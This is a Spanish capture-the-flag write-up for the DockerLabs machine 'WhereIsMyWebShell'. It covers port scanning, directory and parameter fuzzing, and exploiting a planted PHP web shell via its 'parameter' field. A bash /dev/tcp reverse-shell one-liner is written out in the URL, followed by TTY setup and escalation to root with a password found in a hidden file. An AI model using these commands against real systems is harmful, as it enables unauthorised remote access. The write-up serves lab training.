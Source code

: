 # [WhereIsMyWebShell](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con `sudo ./auto_deploy.sh whereismywebshell.tar`

![image](https://github.com/strakie/WriteUps/blob/d9322022da59efa8c66b45d6cd63572b8bc37488/images/Captura%20desde%202025-03-23%2017-45-05.png)

## Reconocimiento

Una vez hayamos montado la máquina, tenemos que comprobar su conectividad con `ping -c 1 172.17.0.2`
<br>

![image](https://github.com/strakie/WriteUps/blob/157530818036902c998233a74098e93f47930dfd/images/2.png)

`-c 1` ⮞ Indica que unicamente enviará 1 paquete y recibira 1.

<br>

Ahora, vamos a proceder a hacer un escaneo de nmap `sudo nmap -sSCV -n -Pn --min-rate 5000 -p- --open 172.17.0.2 -oG escaneo`

`-sSCV` ⮞ hace un escaneo SYN sigiloso `-sS`, ejecuta scripts por defecto `-sC` y detecta versiones de servicios `-sV`<br>
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br>
`-Pn` ⮞ ignora si esta activa o no la IP<br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**.
<br>

![image](https://github.com/strakie/WriteUps/blob/783852e339c00c13801b356490ac7b28e6ef85f2/images/3.png)

<br>
<br>

## Página Web

Al ver que la máquina está alojando un servidor web, nos dirigimos a él poniendo en la barra de busqueda su ip, que en este caso sería `172.17.0.2`. Dicha web, tiene la siguiente apariencia:

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/edb8225a-071e-47d2-ba92-8cb06fa05d83)

Luego de revisar la página web en busca de posibles vulnerabilidades, al final de la página nos aparecería esta pista:

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/06fe23b4-16f2-4cd4-8095-f03c15f84269)

<br>

Inspeccionamos el Código Fuente con `CTRL + U` pero no encontramos nada interesante, por lo que pasamos a hacer fuzzing con el siguiente comando: `gobuster dir -w /home/kali/seclists/directory-medium -u http://172.17.0.2 -x txt,sql,py,js,php,html`<br>

`-w` ⮞ indica la ubicación del diccionario a emplear.<br>
`-u` ⮞ especifíca la dirección url a la que le haremos fuzzing.<br>
`-x` ⮞ declara que buscamos sub-dominios con las declaradas extensiones.<br>

Nos encuentra los siguientes archivos:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/e315816c-9bc5-448d-b864-077f91631082)

<br>

<br>

Vemos un archivo un poco extraño llamado `shell.php`, si nos dirigimos a la página web no nos aparece nada. Por lo que probaremos a hacerle fuzzing al parámetro de este archivo a ver si tiene alguno el cual nos permita ejecutar comando remotamente usaremos la herramienta `wfuzz` de la siguiente forma: `wfuzz -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/shell.php?FUZZ=id --hc 404 --hl 0`, nos encuentra lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6fc866f7-331b-4f59-bb03-eb54c4ad3d35)

<br>

Por lo que nos vamos a la web y en la URL introducimos `http://172.17.0.2/shell.php?parameter=id`, comprobamos que estamos ante una RCE.
<br>

Sabiendo que podemos ejecutar comandos remotamente nos enviaremos una [revshell](https://www.revshells.com/). 

<br>

En primer lugar, nos pondremos en escucha por el puerto especificado, en este caso el `443` con el siguiente comando `nc -nlvp 443`.

<br>

En segundo lugar, le pasamos de valor a `parameter` lo siguiente `bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, por lo tanto la URL quedaría así `172.17.0.2/shell.php?parameter=bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, vemos que la página web se queda cargando y recibiremos la reverse shell:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/28d5cfd0-1400-48a6-8410-e27c0278322d)

<br>
<br>

## Escalada de Privilegios

Comprobamos que hemos accedido a la máquina como **www-data**:
<br>

 > El (;) concatena dos comandos.

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/e3d0974c-19ab-4f5a-838e-4800b942e188)

<br>

El primer lugar, haremos un Tratamiento de la TTY ejecutando en orden las siguientes infracciones: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

<br>

Ejecutamos el comando `sudo -l` para ver que podemos ejecutar como sudo, pero no encontramos nada: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/95fb08c9-21e9-4b8a-ac90-a167c34be2dc)

<br>

Al igual que si ejecutamos `find / -perm -4000 2>/dev/null` en búsqueda de permisos SUID no encontramos nada potencial para escalar privilegios. 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d1835fdd-3a85-4a79-a1af-46fb2da486b5)

`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores 

<br>

Si recordamos en la página web nos dió la siguiente pista:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/06fe23b4-16f2-4cd4-8095-f03c15f84269)

<br>

Por lo que nos dirigimos al directorio `/tmp`, y si hacemos `ls` no vemos nada pero si hacemos `ls -la` observamos un archivo oculto `.secret.txt`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/fe0b5ab0-b49b-45c1-87d9-47f9e41f38fe)

<br>

El contenido de este archivo es el siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/9ad4268b-00fb-4d08-9580-7027c5f53328)

<br>

Por lo que probamos a autenticarnos como **root** haciendo `su root`, ponemos de contraseña `contraseñaderoot123`, y listo ya somos **root!**
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/645487d7-bf3d-457c-90a8-b447b682de84)
